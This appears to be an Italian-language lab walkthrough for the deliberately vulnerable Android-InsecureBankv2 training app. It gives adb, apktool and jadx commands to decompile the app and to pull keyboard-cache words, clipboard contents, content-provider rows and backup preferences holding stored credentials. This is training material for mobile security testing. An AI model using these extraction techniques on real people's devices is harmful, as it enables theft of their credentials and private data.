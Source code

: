 # Android-InsecureBankv2

> https://github.com/dineshshetty/Android-InsecureBankv2

## Server setup

`$ cd AndroLabServer`

`# pip install -r requirements.txt`

`$ python app.py`

## App setup

- accedi all'app

- usa una delle seguenti credenziali

	- dinesh/Dinesh@123$
	- jack/Jack@123$

- configura indirizzo IP e porta della macchina sul quale è attivo `AndroLabServer`

### Utils

#### Apktool To Smali

`$ apktool d InsecureBankv2.apk`

#### Decompiling Android Applications

> https://github.com/skylot/jadx

> https://github.com/pxb1988/dex2jar

`$ mkdir InsecureBankv2_apk`

`$ unzip InsecureBankv2.apk -d InsecureBankv2_apk`

`cd InsecureBankv2_apk`

`$ d2j-dex2jar classes.dex`

`jadx-gui classes-dex2jar.jar`

#### Reading Android Memory

in Android Studio apri il codice dell'app

`Run` -> `Profile...` -> `1. app`

`+` -> `Emulator Unknown` -> `com.android.insecurebankv2`

tasto destro -> `Open memory` -> `Record`

usa l'app

`Dump Java Heap`

`$ hprof-conv memory-*.hprof memory-*-formatted.hprof`

apri `memory-*-formatted.hprof` con [MemoryAnalyzer](https://www.eclipse.org/mat/downloads.php)

`Group by package`

`com` -> `android` -> `insecurebankv2` -> tasto destro su una qualsiasi classe -> `List object with` -> `outgoing preferences`

#### Android Keyboard Cache

dal login `Add to dictionary` dell'username

- `$ adb pull /data/data/com.android.providers.userdictionary/databases/user_dict.db`

- `$ sqlite3 user_dict.db`

- `sqlite> select * from words;`

```
...
1|dinesh|250|en_US|0|
...

```

#### Android Pasteboard

- `$ adb shell ps | grep insecure`

```
u0_a60    6101  1153  1301764 55260 ffffffff 30ac5b7a S com.android.insecurebankv2
```

- `adb shell su u0_a60 service call clipboard 2 s16 com.android.insecurebankv2`

```
Result: Parcel(
  0x00000000: 00000000 00000001 00000001 ffffffff '................'
  0x00000010: 00000001 0000000a 00650074 00740078 '........t.e.x.t.'
  0x00000020: 0070002f 0061006c 006e0069 00000000 '/.p.l.a.i.n.....'
  0x00000030: 00000000 00000001 00000000 0000000c '................'
  0x00000040: 00310031 00310031 00310031 00310031 '1.1.1.1.1.1.1.1.'
  0x00000050: 00310031 00310031 00000000 00000014 '1.1.1.1.........'
  0x00000060: 00000000 00000000 0000000c 00000021 '............!...'
```

#### Android Content Provider

> app/src/main/AndroidManifest.xml

```
<provider android:authorities="com.android.insecurebankv2.TrackUserContentProvider" android:exported="true" android:name="com.android.insecurebankv2.TrackUserContentProvider"/>
```

- `$ grep "content://" -r InsecureBankv2/`

```
InsecureBankv2/smali/com/android/insecurebankv2/TrackUserContentProvider.smali:.field static final URL:Ljava/lang/String; = "content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers"
```

- `$ adb shell content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers`

```
Row: 0 id=1, name=jack
Row: 1 id=2, name=jack
Row: 2 id=3, name=jack
```

#### Android Backup Functionalities

> app/src/main/AndroidManifest.xml

```
<application android:allowBackup="true" android:debuggable="true" android:icon="@mipmap/ic_launcher" android:label="@string/app_name" android:theme="@android:style/Theme.Holo.Light.DarkActionBar">
```

- `$ adb backup -apk -shared com.android.insecurebankv2`

- `$ ( printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" ; tail -c +25 backup.ab ) |  tar xfvz -`

- `$ cat apps/com.android.insecurebankv2/sp/mySharedPreferences.xml`

```
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="superSecurePassword">vK3CrqW6+zg1s9V0YZp0Uw==
    </string>
    <string name="EncryptedUsername">amFjaw==
    </string>
</map>
```

- `$ cat apps/com.android.insecurebankv2/sp/com.android.insecurebankv2_preferences.xml`

```
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="serverport">8888</string>
    <string name="serverip">192.168.1.77</string>
</map>
```

